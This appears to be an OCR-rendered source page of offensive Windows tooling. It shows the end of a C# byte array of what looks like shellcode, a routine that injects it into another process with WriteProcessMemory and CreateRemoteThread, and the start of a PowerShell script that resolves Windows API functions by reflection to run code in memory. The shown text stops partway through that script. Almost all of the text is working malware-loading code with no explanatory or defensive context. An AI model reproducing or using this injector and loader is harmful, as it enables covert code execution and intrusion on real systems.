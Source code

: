 0xc2,0xeb,0x55,0x2e,0x3b,0xff,0xd5,0x48,0x89,0xc6,0x6a,0x0a,0x5f,0x48,0x89,
0xf1,0x6a,0x1f,0x5a,0x52,0x68,0x80,0x33,0x00,0x00,0x49,0x89,0xe0,0x6a,0x04,
0x41,0x59,0x49,0xba,0x75,0x46,0x9e,0x86,0x00,0x00,0x00,0x00,0xff,0xd5,0x4d,
0x31,0xc0,0x53,0x5a,0x48,0x89,0xf1,0x4d,0x31,0xc9,0x4d,0x31,0xc9,0x53,0x53,
0x49,0xc7,0xc2,0x2d,0x06,0x18,0x7b,0xff,0xd5,0x85,0xc0,0x75,0x1f,0x48,0xc7,
0xc1,0x88,0x13,0x00,0x00,0x49,0xba,0x44,0xf0,0x35,0xe0,0x00,0x00,0x00,0x00,
0xff,0xd5,0x48,0xff,0xcf,0x74,0x02,0xeb,0xaa,0xe8,0x55,0x00,0x00,0x00,0x53,
0x59,0x6a,0x40,0x5a,0x49,0x89,0xd1,0xc1,0xe2,0x10,0x49,0xc7,0xc0,0x00,0x10,
0x00,0x00,0x49,0xba,0x58,0xa4,0x53,0xe5,0x00,0x00,0x00,0x00,0xff,0xd5,0x48,
0x93,0x53,0x53,0x48,0x89,0xe7,0x48,0x89,0xf1,0x48,0x89,0xda,0x49,0xc7,0xc0,
0x00,0x20,0x00,0x00,0x49,0x89,0xf9,0x49,0xba,0x12,0x96,0x89,0xe2,0x00,0x00,
0x00,0x00,0xff,0xd5,0x48,0x83,0xc4,0x20,0x85,0xc0,0x74,0xb2,0x66,0x8b,0x07,
0x48,0x01,0xc3,0x85,0xc0,0x75,0xd2,0x58,0xc3,0x58,0x6a,0x00,0x59,0x49,0xc7,
0xc2,0xf0,0xb5,0xa2,0x56,0xff,0xd5 };

        IntPtr outSize;
        WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
        IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
    }

    public void RunProcess(string path)
    {
        Process.Start(path);
    }
}

3

run.ps1

function LookupFunc {
Param ($moduleName, $functionName)
$assem = ([AppDomain]::CurrentDomain.GetAssemblies() |
Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
$tmp=@()
$assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null,
@($moduleName)), $functionName))
}

function getDelegateType {
Param (
    [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
    [Parameter(Position = 1)] [Type] $delType = [Void]
)
 
$type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')),[System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType','Class, Public, Sealed, AnsiClass, AutoClass',[System.MulticastDelegate])
 
$type.DefineConstructor('RTSpecialName, HideBySig, Public',[System.Reflection.CallingConventions]::Standard, $func).SetImplementationFlags('Runtime, Managed')
$type.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).SetImplementationFlags('Runtime, Managed')
